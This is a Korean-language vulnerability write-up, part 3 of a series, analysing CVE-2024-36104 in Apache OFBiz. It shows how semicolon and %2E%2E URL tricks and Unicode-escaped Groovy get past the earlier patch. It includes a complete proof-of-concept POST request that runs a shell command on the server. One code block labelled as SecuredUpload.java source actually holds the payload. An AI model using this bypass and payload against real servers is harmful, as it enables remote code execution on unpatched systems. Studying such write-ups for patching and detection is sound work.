









# Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-36104 (3/7)

> 🔖 **Apache OFBiz 1-Day 취약점 살펴보기**
> 1. [Apache OFBiz 1-Day 취약점 살펴보기: 개요 (1/7)](/Apache%20OFBiz%201-Day%20Analysis/README.md)
> 2. [Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-32113 (2/7)](/Apache%20OFBiz%201-Day%20Analysis/02.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-32113/README.md)
> 3. [Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-36104 (3/7)](/Apache%20OFBiz%201-Day%20Analysis/03.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-36104/README.md)
> 4. [Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-38856 (4/7)](/Apache%20OFBiz%201-Day%20Analysis/04.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-38856/README.md) 
> 5. [Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-45195 (5/7)](/Apache%20OFBiz%201-Day%20Analysis/05.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-45195/README.md) 
> 6. [Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-45507 (6/7)](/Apache%20OFBiz%201-Day%20Analysis/06.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-45507/README.md) 
> 7. [Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-47208 (7/7)](/Apache%20OFBiz%201-Day%20Analysis/07.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-47208/README.md) 

# Introduction

두 번째 취약점인 `CVE-2024-36104` 취약점은 이전에 분석한 [Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-32113 (2/7)](/Apache%20OFBiz%201-Day%20Analysis/02.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-32113/README.md) 과 동일한 Path Traversal 취약점 입니다. 해당 취약점은 `CVE-2024-32113` 이 패치된 이후, 보완된 버전인 Apache OFBiz 버전 18.12.13에서도 우회가 가능하여 새로운 취약점으로 분류되었습니다. 공격자는 특수문자 및 인코딩 기법을 이용하여 보안 제한을 우회하고 원격 코드 실행(RCE)이 가능합니다. 

> 💿 Apache OFBiz 18.12.13 Download Link
>
> [Apache Download Mirrors - v18.12.13 Download Link](https://www.apache.org/dyn/closer.lua/ofbiz/apache-ofbiz-18.12.13.zip)

## Vulnerability Detail

| CVE | CVE-2024-36104 |
| --- | --- |
| Vulnerability | Path Traversal |
| CVSS(3.x) | `CRITICAL` 9.1 |
| Product | Apache OFBiz |
| Version | <= 18.12.13 |
| Link | [`https://nvd.nist.gov/vuln/detail/CVE-2024-36104`](https://nvd.nist.gov/vuln/detail/CVE-2024-36104) |
| Description | Improper Limitation of a Pathname to a Restricted Directory ('Path Traversal') vulnerability in Apache OFBiz. This issue affects Apache OFBiz: before 18.12.14. Users are recommended to upgrade to version 18.12.14, which fixes the issue. |

# Analysis

## 패치 확인(18.12.12 ↔ 18.12.13)

이전에 발생한 취약점 `CVE-2024-32113` 은 다음의 파일이 패치 되었습니다.

✅ framework/webapp/src/main/java/org/apache/ofbiz/webapp/control/ControlFilter.java

> [https://github.com/apache/ofbiz-framework/compare/release18.12.12...release18.12.13#diff-ebc423ab3f878bfaf4d0cbbf5b1efa8f64706b199f8ae019609505d8c45ec654](https://github.com/apache/ofbiz-framework/compare/release18.12.12...release18.12.13#diff-ebc423ab3f878bfaf4d0cbbf5b1efa8f64706b199f8ae019609505d8c45ec654)
> 



✅ framework/security/config/security.properties

> [https://github.com/apache/ofbiz-framework/compare/release18.12.12...release18.12.13#diff-5d4b97fff9ee1d57e4c1d8274847e196ba5404f367afb3e39025f583a3e95e1a](https://github.com/apache/ofbiz-framework/compare/release18.12.12...release18.12.13#diff-5d4b97fff9ee1d57e4c1d8274847e196ba5404f367afb3e39025f583a3e95e1a)
> 



즉, 클라이언트(사용자)로부터 요청된 URL을 정규화(`normalize`)한 후, 원래 URL과 비교하여 다를 경우 예외를 발생시키는 방식과 임의 명령어를 실행하기 위해 전송한 `groovyParam` 파라미터의 유효성 검사를 위해 패턴이 일부 추가(`execute`, `println`, `calc`)된 것을 확인할 수 있습니다.

다음은 위 패치에 의해 `CVE-2024-32113` 취약점의 PoC 패킷이 차단(500 Internal Server Error)된 화면입니다.



# Bypass

이번에 공개된 `CVE-2024-36104` 는 다음의 방식을 이용하여 위 `CVE-2024-32113` 취약점의 패치 내용을 우회합니다.

1. URL 검사 우회
    1. 세미콜론(`;`)을 이용한 URL 검사 우회
    2. URL 인코딩을 이용한 URL 검사 우회
2. 유니코드 인코딩을 이용한 `groovyProgram` 파라미터 필터링 우회

## URL 검사 우회

우선, Apache OFBiz 버전 18.12.13에서 추가된 URL 검사 로직은 다음과 같습니다.

```java
// Reject wrong URLs
try {
    String url = new URI(((HttpServletRequest) request).getRequestURL().toString()).normalize().toString();
    if (!((HttpServletRequest) request).getRequestURL().toString().equals(url)) {
        throw new RuntimeException();
    }
} catch (URISyntaxException e) {
    throw new RuntimeException(e);
}
```

위 패치된 URL 검사 로직의 핵심은 클라이언트가 요청한 URL을 Java의 URI 클래스를 통해 `normalize` 메소드로 정규화한 후, 원본 요청 URL과 비교하는 것입니다. 즉, 정규화된 URL이 원본 URL과 다르다면 예외를 발생시켜 요청을 차단합니다.

### ✅ 세미콜론(`;`)을 이용한 URL 검사 우회

세미콜론(`;`)을 포함한 URL을 이용할 경우 위 로직 우회가 가능합니다. 그 이유는 Java의 URI 클래스가 세미콜론(`;`)을 특별한 방식으로 처리하기 때문입니다.

> URI 경로 내 세미콜론(`;`)은 서블릿 스펙에서 경로 파라미터(Path Parameter)를 구분하는 기호로 사용 되며, [Matrix URI](https://www.w3.org/DesignIssues/MatrixURIs.html) 개념과 관련있습니다. 또한, [RFC 3986](https://datatracker.ietf.org/doc/html/rfc3986) 문서에 따라 세미콜론(`;`) 문자는 서버에 따라 무시될 수 있습니다.
> 

따라서, 다음의 URI를 구성할 경우 URL 검사 로직은 우회가 가능합니다.

```
/webtools/control/main/;/ProgramExport
```



### ✅ URL 인코딩을 이용한 URL 검사 우회

이전에 발생한 취약점 `CVE-2024-32113` 의 경우 다음의 URL을 이용하였습니다.

```
/webtools/control/main/test/../ProgramExport
```

위 URL의 상위 경로 문자(`..`)를 URL로 인코딩하면 다음의 URL이 완성됩니다.

```
/webtools/control/main/test/%2E%2E/ProgramExport
```

이때, Java의 `URI.normalize` 메서드는 일반적인 상위 경로 문자(`..`)는 제거하지만, URL 인코딩 값(`%2E%2E`)은 처리하지 않습니다. 따라서, 아래와 같이 예외가 발생되지 않고 우회가 가능한 것을 확인할 수 있습니다.



## 유니코드 인코딩을 이용한 `groovyProgram` 파라미터 필터링 우회

위 URL 검사만 우회한 상태로 다시 Exploit을 수행하면 요청은 가능하지만, 스크립트가 보안 이유로 실행되지 않는 것을 확인할 수 있습니다.



로그를 통해서도 위 내용과 동일한 결과를 확인할 수 있습니다.



이때, 로그 내용을 자세히 살펴보면 `execute` 문자열이 포함되었다는 이유로 익스플로잇이 불가능한 것을 알 수 있습니다. 또한, 로그 내용을 보면 `===== Not Executed for security reason ====` 문자열이 있는걸로 보아 `ProgramExport.groovy` 스크립트는 정상적으로 실행된 것을 확인할 수 있습니다.

🔍 /framework/webtools/groovyScripts/entity/ProgramExport.groovy 파일 내 일부

```groovy
// Check if a webshell is not uploaded but allow "import"
if (!SecuredUpload.isValidText(groovyProgram, ["import"])) {
    logError("================== Not executed for security reason ==================")
    request.setAttribute("_ERROR_MESSAGE_", "Not executed for security reason")
    return
}
```

이에 `SecuredUpload` 클래스의 `isValidText` 함수에 의해 탐지된 것을 확인할 수 있으며, 해당 함수를 살펴보면 단순히 `token.toLowerCase()`를 사용하여 단순 문자열 비교를 수행하는 것을 알 수 있습니다.

🔍 /framework/security/src/main/java/org/apache/ofbiz/security/SecuredUpload.java 파일 내 일부

```java
\u0074\u0068\u0072\u006f\u0077\u0020\u006e\u0065\u0077\u0020\u0045\u0078\u0063\u0065\u0070\u0074\u0069\u006f\u006e\u0028\u0027\u006c\u0073\u0020\u002d\u0061\u006c\u0027\u002e\u0065\u0078\u0065\u0063\u0075\u0074\u0065\u0028\u0029\u002e\u0074\u0065\u0078\u0074\u0029\u003b
```

따라서, 유니코드로 인코딩된 문자열은 일반 문자열과 다르게 처리되므로 탐지를 우회할 수 있습니다.

# PoC

> `grovyProgram=throw new Exception('ls -al'.execute().text);` 요청
> 

```
POST /webtools/control/main/test/%2E%2E/ProgramExport HTTP/1.1
Host: localhost:8443
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive
Content-Length: 284

groovyProgram=\u0074\u0068\u0072\u006f\u0077\u0020\u006e\u0065\u0077\u0020\u0045\u0078\u0063\u0065\u0070\u0074\u0069\u006f\u006e\u0028\u0027\u006c\u0073\u0020\u002d\u0061\u006c\u0027\u002e\u0065\u0078\u0065\u0063\u0075\u0074\u0065\u0028\u0029\u002e\u0074\u0065\u0078\u0074\u0029\u003b
```



# Patch

`CVE-2024-36104` 취약점의 패치된 버전(18.12.14)을 살펴보면, `ControlFilter.java` 파일에서 URL 검사 우회를 위해 요청한 세미콜론(`;`)과 URL 인코딩된 상위 경로 문자열(`%2E%2E`)을 필터링하기 위한 패치가 적용된 것을 확인할 수 있습니다.

> [https://github.com/apache/ofbiz-framework/compare/release18.12.13...release18.12.14#diff-ebc423ab3f878bfaf4d0cbbf5b1efa8f64706b199f8ae019609505d8c45ec654](https://github.com/apache/ofbiz-framework/compare/release18.12.13...release18.12.14#diff-ebc423ab3f878bfaf4d0cbbf5b1efa8f64706b199f8ae019609505d8c45ec654)
> 



# Continue…

다음은 세 번째 CVE 취약점인 [Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-38856 (4/7)](/Apache%20OFBiz%201-Day%20Analysis/04.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-38856/README.md) 에 대해 알아보겠습니다.

> 🔖 **Apache OFBiz 1-Day 취약점 살펴보기**
> 1. [Apache OFBiz 1-Day 취약점 살펴보기: 개요 (1/7)](/Apache%20OFBiz%201-Day%20Analysis/README.md)
> 2. [Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-32113 (2/7)](/Apache%20OFBiz%201-Day%20Analysis/02.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-32113/README.md)
> 3. [Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-36104 (3/7)](/Apache%20OFBiz%201-Day%20Analysis/03.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-36104/README.md)
> 4. [Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-38856 (4/7)](/Apache%20OFBiz%201-Day%20Analysis/04.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-38856/README.md) 
> 5. [Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-45195 (5/7)](/Apache%20OFBiz%201-Day%20Analysis/05.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-45195/README.md) 
> 6. [Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-45507 (6/7)](/Apache%20OFBiz%201-Day%20Analysis/06.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-45507/README.md) 
> 7. [Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-47208 (7/7)](/Apache%20OFBiz%201-Day%20Analysis/07.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-47208/README.md) 

---

# References

- https://nvd.nist.gov/vuln/detail/CVE-2024-36104
- https://issues.apache.org/jira/browse/OFBIZ-13092
- https://security.stackexchange.com/questions/251723/semicolons-relation-with-reverse-proxy
- https://datatracker.ietf.org/doc/html/rfc3986